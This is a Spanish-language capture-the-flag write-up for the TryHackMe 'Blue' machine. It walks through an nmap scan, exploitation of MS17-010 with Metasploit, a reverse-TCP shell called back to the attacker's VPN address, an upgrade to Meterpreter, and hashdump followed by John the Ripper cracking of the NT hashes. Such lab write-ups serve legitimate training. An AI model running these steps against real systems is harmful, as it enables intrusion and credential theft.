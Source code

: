 # Blue

## NMAP
Lo primero de todo será realizar un escaneo con NMAP a la IP de la máquina en búsqueda de puertos abiertos:

- **`-A`** -> Habilita escaneo agresivo (detección de SO, versiones, scripts y traceroute).  
- **`-T4`** -> Aumenta la velocidad del escaneo (rápido pero puede generar más detección).  

![nmap-1](./img/1.png)

Gracias a este escaneo podemos ver los puertos abiertos, habiendo 3 por debajo de 1000.

---

Buscamos una vulnerabilidad concreta para el **puerto 445**. Este puerto es utilizado por el protocolo **SMB**.
![nmap-2](./img/2.png)

A través de este comando se confirma que la máquina es vulnerable a **MS17-010**.

<br>

---

## Metasploit
Para la explotación de esta máquina usaremos **Metasploit**.

- **Primer paso:**
Abrimos la consola de Metasploit usando el comando:
	```
	sudo msfconsole
	```

- **Segundo paso:**
Haremos una búsqueda para tratar de encontrar un exploit para **MS17-010**:
	```bash
	search MS17-010
	```

	![exploit-1](./img/3.png)

- **Tercer paso:**
Encontramos un posible exploit, lo seleccionamos con el comando:
	```bash
	use 0
	```

	Miramos las opciones que vienen definidas con:
	```bash
	show options
	```
	
	![options-exploit](./img/4.png)

	Configuramos las IPs y mostramos las opciones de nuevo para ver que se han aplicado los cambios:
	```bash
	set rhosts IP_TryHackMe
	set lhost IP_VPN
	set payload windows/x64/shell/reverse_tcp
	show options
	```
	![options-exploit-2](./img/5.png)
	Podemos comprobar que se han realizado los cambios correctamente.

---

- **Cuarto paso:**
Ejecutamos el ataque con el comando:
	```bash
	run
	```
	![shell-1](./img/6.png)

	Pulsamos Ctrl + Z para salir de la shell pero sin cerrarla.

	Con el comando:
	```bash
	sessions
	```
	Veremos la sesión iniciada:

	![sessions](./img/7.png)

	Es importante saber la sesión ya que la necesitaremos más adelante.

---

<br>

## Migración a Meterpreter
Para ello buscaremos un módulo de migración a Meterpreter con el comando:
```bash
search shell_to_meterpreter
```
![meterpreter-2](./img/8.png)

Lo seleccionamos y mostramos las opciones para luego realizar su configuración:
```bash
use 0
show options
```
![meterpreter-3](./img/9.png)


Hacemos la configuración:
```bash
set lhost IP_VPN
set session Nº SESIÓN ANTERIOR
```

Una vez hecha la configuración, la ejecutamos con el comando:
```bash
run
```
<br>

Miramos con el comando ```sessions ``` y encontramos la shell:
![sessions-2](./img/10.png)

La iniciamos y con el comando `whoami` comprobamo el usuario de la shell iniciada:

![shell-meterpreter](./img/11.png)


## Hashes y contraseñas
Para extraer los Hashes, salimos de la shell de Windows y en meterpreter usamos el comando:
```bash
hashdump
```

![hashes](./img/12.png)

Nos vamos a quedar con el hash del usuario Jon. Para ello lo copiamos y lo guardamos en un fichero llamado **hash.txt**:

Intentamos descifrar la contraseña con el comando:
```bash
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt Escritorio/hash.txt
```
![jon](./img/13.png)


<br>

---

## FLAGS
TryHackMe nos indica que existen tres flags.

### Primera Flag:
TryHackMe nos indica que se encuentra en la raíz del sistema. Para ello volvemos a acceder a la shell de la máquina Windows.

Una vez dentro navegaremos a la raíz y encontramos la primera flag:

![flag-1](./img/14.png)

---

### Segunda Flag:
Para encontrar esta flag navegaremos al directorio `C:\Windows\System32\Config` donde encontraremos la segunda flag:

![flag-2](./img/15.png)

---

### Tercera Flag:
Esta flag la podremos encontrar en el directorio `C:\Users\Jon\Documents`:

![flag-3](./img/16.png)


---

Una vez encontradas todas las Flags, podemos confirmar que la máquina ha sido comprometida con ¡ÉXITO!